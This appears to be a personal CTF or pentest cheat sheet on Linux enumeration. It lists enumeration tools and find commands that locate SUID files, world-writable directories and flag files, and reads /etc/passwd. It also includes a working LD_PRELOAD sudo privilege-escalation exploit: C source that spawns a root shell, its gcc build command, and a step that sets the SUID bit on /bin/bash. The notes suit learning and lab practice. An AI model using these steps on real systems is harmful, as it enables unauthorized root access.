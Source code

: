 # Linux Enumeration
---
## Tools & Resources
- LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

- LinEnum: https://github.com/rebootuser/LinEnum

- LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester

- Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration

- Linux Priv Checker: https://github.com/linted/linuxprivchecker

- Priv Esc Resource: https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist
---
- sudo -l - see what can be run as sudo for current user
- cat /etc/passwd | cut -d ":" -f 1

- find . -name flag1.txt: find the file named “flag1.txt” in the current directory

- find /home -name flag1.txt: find the file names “flag1.txt” in the /home directory

- find / -type d -name config: find the directory named config under “/”

- find / -type f -perm 0777: find files with the 777 permissions (files readable, writable, and executable by all users)

- find / -perm a=x: find executable files

- find /home -user frank: find all files for user “frank” under “/home”

- find / -mtime 10: find files that were modified in the last 10 days

- find / -atime 10: find files that were accessed in the last 10 day

- find / -cmin -60: find files changed within the last hour (60 minutes)

- find / -amin -60: find files accesses within the last hour (60 minutes)

- find / -size 50M: find files with a 50 MB size

- find / -writable -type d 2>/dev/null : Find world-writeable folders

- find / -perm -222 -type d 2>/dev/null: Find world-writeable folders

- find / -perm -o w -type d 2>/dev/null: Find world-writeable folders

- find / -perm -o x -type d 2>/dev/null : Find world-executable folders

- find / -perm -u=s -type f 2>/dev/null: Find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user.

---
if LD_PRELOAD in sudo -l output

Check for LD_PRELOAD (with the env_keep option)
Write a simple C code compiled as a share object (.so extension) file
Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file
The C code will simply spawn a root shell and can be written as follows;
#include <stdio.h>

#include <sys/types.h>

#include <stdlib.h>

void _init() {

unsetenv("LD_PRELOAD");

setgid(0);

setuid(0);

system("/bin/bash");

}

We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters;

gcc -fPIC -shared -o shell.so shell.c -nostartfiles

set suid bit on /bin/bash (chmod +s /bin/bash)

run bash -p

